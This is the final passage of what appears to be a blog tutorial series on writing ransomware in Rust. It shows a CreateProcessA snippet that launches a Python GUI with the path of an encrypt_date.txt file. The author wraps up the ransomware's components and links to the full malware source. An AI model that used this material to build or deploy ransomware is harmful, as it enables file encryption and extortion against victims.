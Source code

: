 ``` rust
           for byte in path.clone() {
               command_line.push(byte);
           }
           command_line.push(32u8);
           for byte in full_path.as_bytes() {
               command_line.push(byte.clone());
           }
           command_line.push(0u8);
           CreateProcessA(
               CString::from_vec_unchecked(path).as_ptr(),
               CString::from_vec_unchecked(command_line).as_ptr() as *mut i8,
               null_mut(),
               null_mut(),
               0,
               0x10, //CREATE_NEW_CONSOLE
               null_mut(),
               null_mut(),
               &mut start_up_info,
               &mut process_info,
           );
           return true;
       }
   }
```


Since our python GUI program takes the file **encrypt_date.txt** path as a command line parameter, we first need to get the path of that file before calling **CreateProcessA**. 


Note: the *lpCommandLine* field from **CreateProcessA** takes the current executable GUI file as the first parameter and the **encrypt_date.txt** file path as the second parameter. It took me so long to figure this out because originally, I only have the **encrypt_date.txt** file path as the only parameter, and it constantly fails.


## 5. Wrapping up


From here, we have implemented the basic techniques and different components of a ransomware.


Even though Rust is not as fast as C++, I still think it is an awesome language to develop in, and I will certainly use more of Rust for malware development!


Hopefully, you have learned a thing or two throughout this Rust Ransomware series of mine.


If you are interested in the source code of this entire malware, feel free to check it out here at my [github](https://github.com/cdong1012/Rust-Ransomware).
